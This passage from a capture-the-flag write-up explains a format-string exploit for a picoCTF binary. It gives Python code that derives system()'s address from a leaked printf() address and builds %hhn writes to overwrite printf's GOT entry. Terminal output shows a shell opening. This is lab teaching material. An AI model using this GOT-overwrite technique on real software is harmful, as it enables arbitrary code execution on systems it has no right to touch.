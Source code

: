First we import the struct library again and sys to take command line arguments.

```Python
import sys
import struct
```

Then we get the address of ```printf()``` as a hex value from command line args and calculate the address of ```system()``` with our known offset.

```Python
# input printf addr as arg 1
printf = int(sys.argv[1], 16)

# calc system addr from known prinf addr (0xf860 is magical constant from shell2017.picoctf.com)
system = printf - 0xf860
```

Then we create a format string which performs 8 writes. Each one writes the least significant byte of the string's length to a portion of the GOT entry for ```printf()``` to build the address of ```system()``` at that location. 

```Python
fmt_str = "\ne "
count = 0x0
add = 0x0
for i in range(0, 8, 1):
    # get byte from system addr
    byte = (system >> (8 * i)) % 256
    # calc num chars to add to str
    add = byte - count % 256
    if add <= 0:
        add += 256
    count += add
    # append to format str (51 is magic number from input.py script)
    fmt_str += "%"+str(add)+"x%"+str(51+i)+"$hhn"
fmt_str += "\n"

print fmt_str
```

So we run that script as follows and get the format string we need to enter.

```
$ python calc_system_fmt_str.py 0x7fb39c05ecf0
e %144x%51$hhn%100x%52$hhn%16x%53$hhn%152x%54$hhn%23x%55$hhn%204x%56$hhn%129x%57$hhn%256x%58$hhn
$
```

Then in terminal 1 we finish the hack. We need only execute a shell with ```/bin/sh``` and cat the flag.

```
Config action: e %144x%51$hhn%100x%52$hhn%16x%53$hhn%152x%54$hhn%23x%55$hhn%204x%56$hhn%129x%57$hhn%256x%58$hhn
Exit message set!
                                                                                                                                        9c3b4323                                                                                            9c3b57a0        9c0e9c00                                                                                                                                                9c3b57a0               6e686824                                                                                                                                                                                                           0                                                                                                                         d04ca112                                                                                                                                                                                                                                                        d04ca520sh: 1: Config: not found
e /bin/sh
Exit message set!
```